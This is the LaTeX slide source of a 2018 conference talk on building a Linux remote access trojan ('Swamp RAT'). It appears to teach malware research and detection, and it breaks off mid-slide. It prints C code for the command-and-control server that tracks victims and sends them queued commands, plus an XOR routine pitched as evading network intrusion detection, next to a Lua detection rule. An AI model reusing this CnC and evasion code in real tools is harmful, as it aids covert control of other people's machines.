% Swamp RAT
% Copyright (C) 2018  Lilly Chalupowski

% This program is free software: you can redistribute it and/or modify
% it under the terms of the GNU General Public License as published by
% the Free Software Foundation, either version 3 of the License, or
% (at your option) any later version.

% This program is distributed in the hope that it will be useful,
% but WITHOUT ANY WARRANTY; without even the implied warranty of
% MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
% GNU General Public License for more details.

% You should have received a copy of the GNU General Public License
% along with this program.  If not, see <https://www.gnu.org/licenses/>.

\documentclass[aspectratio=169]{beamer}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{eso-pic}
\usepackage{minted}
\usepackage{hyperref}
\usepackage{tcolorbox}

\makeatletter
\newenvironment{myitemize}{%
  \setlength{\topsep}{0pt}
  \setlength{\partopsep}{0pt}
  \renewcommand*{\@listi}{\leftmargin\leftmargini \parsep\z@ \topsep\z@ \itemsep\z@}
  \let\@listI\@listi
  \itemize
}{\enditemize}
\makeatother

\graphicspath{{img/}}

\usetheme{Warsaw}
\usemintedstyle{monokai}

\setbeamercolor{normal text}{fg=white,bg=black!90}
\setbeamercolor{structure}{fg=white}
\setbeamercolor{alerted text}{fg=red!85!black}
\setbeamercolor{item projected}{use=item,fg=black,bg=item.fg!35}
\setbeamercolor*{palette primary}{use=structure,fg=structure.fg}
\setbeamercolor*{palette secondary}{use=structure,fg=structure.fg!95!black}
\setbeamercolor*{palette tertiary}{use=structure,fg=structure.fg!90!black}
\setbeamercolor*{palette quaternary}{use=structure,fg=structure.fg!95!black,bg=black!80}
\setbeamercolor*{framesubtitle}{fg=white}
\setbeamercolor*{block title}{parent=structure,bg=black!60}
\setbeamercolor*{block body}{fg=black,bg=black!10}
\setbeamercolor*{block title alerted}{parent=alerted text,bg=black!15}
\setbeamercolor*{block title example}{parent=example text,bg=black!15}
\setbeamertemplate{navigation symbols}{}
\setbeamercolor{footercolor}{fg=white,bg=black}

\makeatletter
\defbeamertemplate*{footline}{myfootline}
{
  \leavevmode%
  \hbox{%
    \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,center]{footercolor}%
      \insertshorttitle
    \end{beamercolorbox}%
    \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,center]{footercolor}%
      \insertshortauthor\expandafter\beamer@ifempty\expandafter{\beamer@shortinstitute}{}{~~(\insertshortinstitute)}
    \end{beamercolorbox}%
    \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,right]{footercolor}%
      \insertshortdate{}\hspace*{2em}
      \insertframenumber{} / \inserttotalframenumber\hspace*{2ex} 
    \end{beamercolorbox}}%
  \vskip0pt%
}
\makeatother

\title{Don't RAT Me OUT!}

\institute{GoSecure}
\author{Lilly Chalupowski}
\date{October 29, 2018}

\begin{document}

\setbeamertemplate{footline}{}
\begin{frame}[t]
  \begin{center}
    \begingroup
    \fontsize{20pt}{20pt}\selectfont
    \inserttitle \\
    \endgroup
    \bigskip
    
\includegraphics[scale=0.48]{wikileaks} \\
    \bigskip
    \insertauthor \\
    \insertdate
  \end{center}
\end{frame}

\setbeamertemplate{footline}[myfootline]

\begin{frame}
  \frametitle{whois lilly.chalupowski}
  \begin{table}
    \caption{\textit{who.is results}}
    \begin{tabularx}{\textwidth}{|X|X|}
      \hline
      Name & Lilly Chalupowski \\
      \hline
      Status & Employed \\
      \hline
      Creation Date & 1986/11/29 \\
      \hline
      Expiry & A Long Time from Now \\
      \hline
      Registrant Name & GoSecure \\
      \hline
      Administrative contact & Travis Barlow \\
      \hline
      Job & Security Application Developer - Threat Intelligence \\
      \hline
    \end{tabularx}
  \end{table}
\end{frame}

\begin{frame}
  \frametitle{Agenda}
  \framesubtitle{What will we cover?}
  \begin{itemize}
  \item{Disclaimer}
  \item{What is a RAT?}
  \item{Brief History of the RAT}
  \item{Why build a RAT?}
  \item{The Laboratory RAT}
    \begin{itemize}
    \item{CnC Server}
    \item{Victim Sessions}
    \item{Command Queue}
    \item{NCurses}
    \end{itemize}
  \item{Evasion}
    \begin{itemize}
    \item{NIDS/NIPS}
    \item{Debugging}
    \item{Virtual Machines}
    \end{itemize}
  \item{POC / Demo / Questions}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{Disclaimer}
  \framesubtitle{Don't be a Criminal}
  \begin{tcolorbox}[title=disclaimer.log,colback=gray]
    The tools and techniques covered in this presentation can be dangerous and are\\
    being shown for educational purposes.\\
    \newline
    It is a violation of Federal laws to attempt gaining unauthorized access to information, assets or systems belonging to others, or to exceed authorization on systems for which you have not been granted.\\
    \newline
    Only use these tools with/on systems you own or have written permission from the owner. I (the speaker) do not assume any responsibility and shall not be held liable for any illegal use of these tools.\\
  \end{tcolorbox}
\end{frame}

\begin{frame}
  \frametitle{What is a RAT?}
  \begin{center}
    
\includegraphics[width=5cm,keepaspectratio]{question_mark}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{What is a RAT?}
  \framesubtitle{The Animal}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=5cm,keepaspectratio]{rat_animal}
      \caption{Army RAT!}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{What is a RAT}
  \framesubtitle{The Tool}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{rat_tool}
      \caption{Swamp RAT}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{History of the RAT}
  \begin{center}
    
\includegraphics[width=11cm,keepaspectratio]{history}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{History of the RAT}
  \framesubtitle{System Administrators}
  \begin{itemize}
  \item{Central management}
  \item{Supporting larger user base}
  \item{Fixing issues remotely}
  \item{Solved user issues issues}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{History of the RAT}
  \framesubtitle{Well that Escalated Quickly}
  \begin{center}
    
\includegraphics[width=6.5cm,keepaspectratio]{escalated_quickly_rat}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Why Build a RAT?}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=12cm,keepaspectratio]{hackers_meme}
      \caption{Hackers IRL}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Why Build a RAT?}
  \framesubtitle{Because Linux}
  \begin{itemize}
  \item{Linux}
  \item{C Programming Language}
  \item{Learning Experience}
  \item{Find Detection Limitations}
  \item{Research the Linux Malware Ecosystem}
  \item{It's Cool}
  \item{Because I Can}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{The Laboratory RAT}
  \begin{center}
    
\includegraphics[width=5cm,keepaspectratio]{lab_rat}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{CnC Server}
  \framesubtitle{In the C Programming Language}
  \begin{itemize}
  \item{Sockets}
    \begin{itemize}
    \item{Create}
    \item{Bind}
    \item{Listen}
    \item{Accept}
    \item{Receive}
    \item{Process}
    \item{Send}
    \end{itemize}
  \item{PThreads}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{CnC Server}
  \framesubtitle{It can be painful when written in C}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=10cm,keepaspectratio]{everything_hurts}
      \caption{Leslie Knope}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Create Victims Memory Data Structure}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        net_client_beacon_t **net_create_victims(){
          int count = NET_MAX_CLIENTS;                      // Get Max Supported Clients Count
          net_client_beacon_t **v;                          // Create Pointer to Data Structure
          v = malloc(count * sizeof(net_client_beacon_t));  // Allocate Memory for Data Array
          if (v == NULL){                                   // Error Checking
            fprintf(stderr, "[x] %s\n", strerror(errno));
            exit(EXIT_FAILURE);
          }
          for (int i = 0; i < count; i++){                  // Set to NULL
            v[i] = NULL;
          }
          return v;                                         // Return Pointer to Data Structure Array
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Create Commands Memory Data Structure}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        net_server_beacon_t **net_create_commands(){
          int count = NET_MAX_CLIENTS;                     // Get Max Supported Clients Count
          net_server_beacon_t **v;                         // Create Pointer to Data Structure
          v = malloc(count * sizeof(net_server_beacon_t)); // Allocate Memory for Data Array
          if (v == NULL){                                  // Error Checking
            fprintf(stderr, "[x] %s\n", strerror(errno));
            exit(EXIT_FAILURE);
          }
          for (int i = 0; i < count; i++){                 // Set to NULL
            v[i] = NULL;
          }
          return v;                                        // Return Pointer to Data Structure Array
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Command and Control in C Sockets 0}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool net_server(int port,
                        net_client_beacon_t **p_victims,    // Victims Memory Array
                        net_server_beacon_t **p_commands){  // Commands Memory Array
          int server_fd, client_fd;
          struct sockaddr_in server, client;
          server_fd = socket(AF_INET, SOCK_STREAM, 0);      // Create Socket File Descriptor
          if (server_fd < 0){                               // Error Checking for Socket
            fprintf(stderr, "[x] %s\n", strerror(errno));
            return false;
          }
          if (setsockopt(server_fd,                         // Socket File Descriptor
                         SOL_SOCKET,                        // Manipulate Socket Options
                         SO_REUSEADDR,                      // Permit Local Host Reuse
                         &(int){ 1 },
                         sizeof(int)) < 0){
            fprintf(stderr, "[-] %s\n", strerror(errno));
          }
          memset(&server, 0, sizeof(server));              // Zero Out Server Struct
          server.sin_family      = AF_INET;                // Set TCP Type
          server.sin_port        = htons(port);            // Set Port
          server.sin_addr.s_addr = htonl(INADDR_ANY);      // Any Addresses
          // continued here...
      }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Command and Control in C Sockets 1}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
          if (bind(server_fd, (struct sockaddr *) &server, sizeof(server)) < 0){ return false; } // Bind to Socket
          if (listen(server_fd, NET_MAX_CLIENTS)  != 0){ return false; }                         // Listen to Socket
          while (true){
            socklen_t client_len = sizeof(client);
            net_t_client_args_t *p_net_t_client_args = malloc(sizeof(net_t_client_args_t));
            while (( client_fd = accept(server_fd,                                      // Socket File Descriptor
                                        (struct sockaddr *)&client,                     // Client SockAddr Struct
                                        (socklen_t *)&client_len))){
              pthread_t t_client;                                                       // Client Thread
              p_net_t_client_args->client_fd = client_fd;                               // Send Client File Descriptor
              p_net_t_client_args->p_victims = p_victims;                               // Pointer to Victims Struct
              p_net_t_client_args->p_commands = p_commands;                             // Pointer to Commands Struct
              pthread_attr_t attr_t_client;                                             // Create Thread Attributes
              pthread_attr_init(&attr_t_client);                                        // Initialize Attributes
              pthread_attr_setdetachstate(&attr_t_client, PTHREAD_CREATE_DETACHED);     // Set Detached Attribute
              if (pthread_create(&t_client,
                                 &attr_t_client, net_t_client, p_net_t_client_args) < 0){ // Spawn Client Thread
                return false;
              }
            }
            free(p_net_t_client_args); // Cleanup
          }
          close(client_fd);            // Close Client Socket File Descriptor
          return true;
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Handling Victim Sessions 0}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        void *net_t_client(void *args){
          net_t_client_args_t *p_args = args;
          int sock = p_args->client_fd;
          net_client_beacon_t **p_victims = p_args->p_victims;
          net_server_beacon_t **p_commands = p_args->p_commands;
          net_client_beacon_t *p_net_client_beacon = malloc(sizeof(net_client_beacon_t));
          net_server_beacon_t *p_net_server_beacon = malloc(sizeof(net_server_beacon_t));
          while (true){
            bool command = false;
            int read = recv(sock, p_net_client_beacon, sizeof(net_client_beacon_t), 0);
            if (!read){ break; }
            if (read < 0){
              fprintf(stderr, "[-] %s\n", strerror(errno));
              free(p_net_client_beacon);
              pthread_exit(NULL);
            }
            net_update_victims(p_net_client_beacon, p_victims);
            // contuned ...
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Handling Victim Sessions 1}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        for (int i = 0; i < NET_MAX_CLIENTS; i++){
          if (p_commands[i] != NULL &&
              (strcmp(p_net_client_beacon->sysinfo.uuid, // Check Victim UUID
              p_commands[i]->uuid) == 0)){
            command = true;
            if (send(sock, p_commands[i], sizeof(net_server_beacon_t), 0) < 0){
              fprintf(stderr, "[-] %s\n", strerror(errno));
            }
            net_remove_commands(p_commands[i], p_commands); // Command Sent to Victim
          }
        }
        if (command == false){
          p_net_server_beacon->xor_key = DEFS_XOR_KEY; // Set Packet XOR Key
          p_net_server_beacon->status = true;
          if (send(sock, p_net_server_beacon, sizeof(net_server_beacon_t), 0) < 0){
            fprintf(stderr, "[x] %s\n", strerror(errno));
            free(p_net_server_beacon);
            free(p_net_client_beacon);
            pthread_exit(NULL);
          }
        }
      }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{How can we thwart most NIDS/NIPS?}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=6cm,keepaspectratio]{bypass_firewall}
      \caption{Bill Gates}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{First Hint}
  \begin{center}
    
\includegraphics[width=10cm,keepaspectratio]{xor_gate}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{Second Hint}
  \begin{center}
    
\includegraphics[width=5cm,keepaspectratio]{xor_truth_table}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Function to Bypass Most NIDS/NIPS}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool crypt_decrypt_xor(char *data,      // Pointer to Data Structure
                               int data_size,   // Size of Data
                               int key){        // The Key
          for (int i = 0; i < data_size; i++){ 
            if (i > (int)sizeof(int) - 1){      // Skip over the Key
              data[i] = data[i]^key;            // XOR the Data
            }
          }
          return true;
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{CnC Server}
  \framesubtitle{But Why?}
  \begin{center}
    
\includegraphics[width=7cm,keepaspectratio]{but_why}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{CnC Server}
  \framesubtitle{But we can detect this with Lua!}
  \begin{itemize}
  \item{Suricata}
    \begin{itemize}
    \item{Lua Scripting}
    \end{itemize}
  \item{Snort}
    \begin{itemize}
    \item{Lua Scripting}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{Lua Script Example}
  \begin{center}
    \begin{tcolorbox}[title=alert.lua,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{lua}
        function init (args)
          local needs = {}
          needs["http.request_line"] = tostring(true)
          return needs
        end

        function match(args)
          a = tostring(args["http.request_line"])
            if #a > 0 then
              if a:find("^POST%s+/.*%.php%s+HTTP/1.0$") then
                return 1
              end
            end
          return 0
        end
        return 0
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{Performance:Detection}
  \begin{center}
